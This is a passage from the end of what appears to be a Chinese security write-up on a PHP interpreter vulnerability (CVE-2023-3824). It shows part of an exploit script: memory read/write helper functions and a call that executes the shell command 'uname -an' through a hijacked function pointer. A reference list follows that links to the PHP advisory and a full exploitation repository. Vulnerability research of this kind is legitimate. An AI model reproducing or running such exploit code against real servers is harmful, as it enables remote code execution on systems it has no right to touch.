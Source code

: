 ```php
    $f('uname -an');
}

function read64($str, $p) {
    $v = 0;
    $v |= ord($str[$p + 0]);
    $v |= ord($str[$p + 1]) << 8;
    $v |= ord($str[$p + 2]) << 16;
    $v |= ord($str[$p + 3]) << 24;
    $v |= ord($str[$p + 4]) << 32;
    $v |= ord($str[$p + 5]) << 40;
    $v |= ord($str[$p + 6]) << 48;
    $v |= ord($str[$p + 7]) << 56;
    return $v;
}

function write8(&$str, $p, $v){
    $str[$p] = chr($v & 0xff);
}

function write64(&$str, $p, $v) {
    $str[$p + 0] = chr($v & 0xff);
    $v >>= 8;
    $str[$p + 1] = chr($v & 0xff);
    $v >>= 8;
    $str[$p + 2] = chr($v & 0xff);
    $v >>= 8;
    $str[$p + 3] = chr($v & 0xff);
    $v >>= 8;
    $str[$p + 4] = chr($v & 0xff);
    $v >>= 8;
    $str[$p + 5] = chr($v & 0xff);
    $v >>= 8;
    $str[$p + 6] = chr($v & 0xff);
    $v >>= 8;
    $str[$p + 7] = chr($v & 0xff);
}
```

#### 引用

1.  《挑衅执法机构，LockBit 黑客犯罪团伙死灰复燃》, https://mp.weixin.qq.com/s/sLC\_zuW0Wyk91i7aITbygA
2.  PHP official report, https://github.com/php/php-src/security/advisories/GHSA-jqcx-ccgc-xwhv
3.  完整 exploitation repo, https://github.com/m4p1e/php-exploit/tree/master/CVE-2023-3824
4.  拥抱 php 之 CVE-2019-11043, https://m4p1e.com/2019/11/03/CVE-2019-11043/
